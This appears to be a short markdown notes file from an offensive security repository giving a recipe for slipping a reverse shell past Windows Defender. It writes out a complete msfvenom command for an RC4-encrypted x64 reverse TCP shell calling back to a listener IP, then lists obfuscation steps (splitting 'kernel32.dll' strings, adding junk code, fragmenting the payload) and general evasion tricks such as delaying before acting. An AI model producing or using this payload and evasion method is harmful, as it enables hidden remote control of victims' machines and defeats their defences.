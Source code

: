 # Steps


Have a Windows10 VM with Defender activated with
an exclusion on an SMB share where we can easily pass files
without detection enabled.
Disable "Tamper Protection" from GUI.

Set-MpPreference -ExclusionPath "C:\path\to\SMB\Share\dir"


1. generate the payload you want with msfvenom,
   rc4 encrypted work nicely for the purpose.

    msfvenom -p windows/x64/shell/reverse_tcp_rc4 LHOST=172.28.128.1 \
    LPORT=8080 \
    EXITFUNC=thread \
    RC4PASSWORD=PutAPasswordHere \
    -f psh-net > shell45.ps1

2. Test this with AV completely disabled just to check if it works.
3. Now this payload would be detected easily. So we should modify it.
    Follow the following steps:
    1. modify all the strings "kernel32.dll" or "system.dll" 
       to be split such as "k" + "er" + "n"...
    2. Add random functions from code found online
    3. Split the payload in many small strings
       the concatenate the strings
    4. Add more random code

3. Try the malware without AV activated, to check if the payload is working
   after the modifications. If it works.
   Let's try to check if it gets detected.
   If this happens, we should follow the split methodology. And see on which files
   the AV flags.


Note that it happened that I had to remove the "system32.dll" loading as a library.


Now how to modify the payload may change based on the format of the payload,
in general we prefer to have the source and not an executable, since
modifying executables becomes much more complicated.

To understand how to modify a C payload generated by msfvenom when using "-f c > mypayload.c"
look here:
https://securityboulevard.com/2020/02/evading-antivirus-with-better-meterpreter-payloads/


# TLDR

The standard techniques are:
- adjusting the binary (like by compiling it from scratch instead of using a precompiled version);
- adjusting the behavior (sleep a bit, make some calculations then do bad things);
- do custom stuff;
